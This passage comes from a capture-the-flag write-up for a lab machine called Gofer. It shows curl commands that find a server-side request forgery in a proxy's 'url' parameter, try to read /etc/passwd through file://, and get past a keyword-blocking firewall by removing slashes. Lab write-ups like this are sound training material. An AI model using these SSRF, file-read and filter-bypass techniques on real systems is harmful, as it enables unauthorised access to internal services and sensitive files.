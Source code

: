 Weak credentials don't work at all. I tested a few common directories with different requests, and found that `index.php` accepted POST requests without credentials:

```
$ curl -X POST http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

Testing it a bit more reveals where the URL parameter can be specified:

```
$ curl -X POST -d 'URL=http://10.10.14.42' http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
$ curl -X POST http://proxy.gofer.htb/index.php?url=http://10.10.14.42
<!-- Welcome to Gofer proxy -->
<!DOCTYPE HTML>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href=".android/">.android/</a></li>
<li><a href=".ansible/">.ansible/</a></li>
<TRUNCATED>
```

So we have SSRF on this machine with this `url` parameter. I attempted some LFI using the `file://` protocol, but there's a WAF in the way:

```
$ curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>
```

A bit more testing by removing `/` characters eventually works! This tells me that the WAF is rather weak.&#x20;

<figure><img src="../../.gitbook/assets/image (785).png" alt=""><figcaption></figcaption></figure>
